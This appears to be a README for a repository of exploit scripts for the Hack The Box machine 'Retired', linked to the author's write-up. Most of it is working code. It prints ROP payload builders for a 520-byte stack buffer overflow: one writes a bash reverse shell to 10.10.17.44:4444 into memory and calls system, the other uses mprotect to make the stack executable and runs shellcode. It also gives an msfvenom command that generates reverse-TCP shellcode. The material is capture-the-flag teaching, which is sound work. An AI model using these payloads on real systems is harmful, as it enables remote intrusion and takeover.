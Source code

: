 # Hack The Box. Machines. Retired

Machine write-up: https://7rocky.github.io/en/htb/retired

### `first_exploit.py`

The [write-up](https://7rocky.github.io/en/htb/retired/#exploit-development) provides the needed information to exploit the Buffer Overflow vulnerability of the corresponding binary. 

### `second_exploit.py`

This exploit uses a "write-what-where" primitive to store a reverse shell command as a string in a writable address space. To learn about the context of this exploit, you can read the [write-up](https://7rocky.github.io/en/htb/retired/#analyzing-activate_license).

To do so, we use gadgets `pop rax; ret` and `pop rdi; ret` to store a writable address and a piece of the command string (8 bytes), and then we perform the write operation with gadget `mov qword ptr [rax], rdi; ret`.

We can use this technique because we have got the base address of Glibc, which has a ton of useful gadgets.

This is the function that crafts the payload:

```python
def craft_payload(pid):
    elf_address, glibc_address, stack_addr = get_addresses(pid)

    pop_rax_ret = glibc_address + 0x3ee88
    pop_rdi_ret = glibc_address + 0x26796
    mov_qword_ptr_rax_rdi_ret = glibc_address + 0x8a0eb

    system_addr = glibc_address + 0x48e50

    writable_addr = elf_address + 0x04000

    offset = 520
    junk = b'A' * offset

    payload  = junk
    payload += p64(pop_rdi_ret) + b'bash -c '
    payload += p64(pop_rax_ret) + p64(writable_addr)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b"'bash -i"
    payload += p64(pop_rax_ret) + p64(writable_addr +  8)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b' >& /dev'
    payload += p64(pop_rax_ret) + p64(writable_addr + 16)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b'/tcp/10.'
    payload += p64(pop_rax_ret) + p64(writable_addr + 24)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b'10.17.44'
    payload += p64(pop_rax_ret) + p64(writable_addr + 32)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b'/4444 0>'
    payload += p64(pop_rax_ret) + p64(writable_addr + 40)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + b"&1'    \0"
    payload += p64(pop_rax_ret) + p64(writable_addr + 48)
    payload += p64(mov_qword_ptr_rax_rdi_ret)
    payload += p64(pop_rdi_ret) + p64(writable_addr)
    payload += p64(system_addr)

    return {'licensefile': ('tmp_name', payload)}
```

It takes base addresses from a function called `get_addresses` that receives the corresponding PID of the program. Then it starts creating the payload by setting the junk data, then performing the storage of the reverse shell command in blocks of 8 bytes and finally it calls `system` providing the address of the command string as first argument.

### `third_exploit.py`

This exploit uses `mprotect` to modify the permissions of the stack and set it as executable in order to enter shellcode on the stack an execute it to obtain a reverse shell. To learn about the context of this exploit, you can read the [write-up](https://7rocky.github.io/en/htb/retired/#analyzing-activate_license).

`mprotect` receives three arguments: the start of the stack address space, the length of the stack address space and the permissions to be set (`7` for `rwx`). Hence, we will use gadgets `pop rdi; ret`, `pop rsi; ret` and `pop rdx; ret` to set the three registers that will contain the values of the arguments passed to `mprotect`.

Once that's done and `mprotect` has been called, the stack will be executable. In order to let the execution flow go to the stack, we must enter the address of an instruction like `jmp rsp`. It can't be found in Glibc or in the binary. However, there's a gadget that does pretty much the same, which is `push rsp; ret`.

Once the instruction pointer is at the stack, the shellcode will be executed and we will get a reverse shell.

This is the function that crafts the payload:

```python
def craft_payload(pid, shellcode):
    elf_addr, glibc_addr, stack_addr = get_addresses(pid)

    pop_rdi_ret   = glibc_addr + 0x26796
    pop_rsi_ret   = glibc_addr + 0x2890f
    pop_rdx_ret   = glibc_addr + 0xcb1cd
    push_rsp_ret  = glibc_addr + 0x3afc9
    mprotect_addr = glibc_addr + 0xf8c20

    offset = 520
    junk = b'A' * offset

    payload  = junk
    payload += p64(pop_rdi_ret)
    payload += p64(stack_addr)
    payload += p64(pop_rsi_ret)
    payload += p64(0x21000)
    payload += p64(pop_rdx_ret)
    payload += p64(0b111)
    payload += p64(mprotect_addr)
    payload += p64(push_rsp_ret)
    payload += shellcode

    return {'licensefile': ('tmp_name', payload)}
```

It takes base addresses from a function called `get_addresses` that receives the corresponding PID of the program. Then it starts creating the payload by setting the junk data, then performing the call to `mprotect` and then jumping to the shellcode on the stack.

Notice that this shellcode can be built with `msfvenom` like this:

```console
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.17.44 LPORT=4444 -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Saved as: shellcode.bin
```
